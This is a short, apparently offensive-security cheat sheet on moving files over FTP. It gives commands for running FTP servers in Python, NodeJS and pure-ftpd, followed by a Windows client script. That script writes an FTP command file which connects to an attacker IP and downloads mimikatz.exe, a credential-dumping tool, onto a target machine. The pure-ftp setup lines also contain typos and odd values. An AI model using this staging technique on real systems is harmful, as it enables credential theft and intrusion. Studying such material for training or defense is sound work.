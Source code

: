 ## FTP

### FTP server (python)

```bash
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21
```

### FTP server (NodeJS)

```
sudo npm install -g ftp-srv --save
ftp-srv ftp://0.0.0.0:9876 --root /tmp
```

### FTP server (pure-ftp)

```bash
apt-get update && apt-get install pure-ftp
```

```bash
#Run the following script to configure the FTP server
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pwd useradd fusr -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```

### **Windows** client

```bash
#Work well with python. With pure-ftp use fusr:ftp
echo open 10.11.0.41 21 > ftp.txt
echo USER anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo bye >> ftp.txt
ftp -n -v -s:ftp.txt
```

## SMB

Kali as server
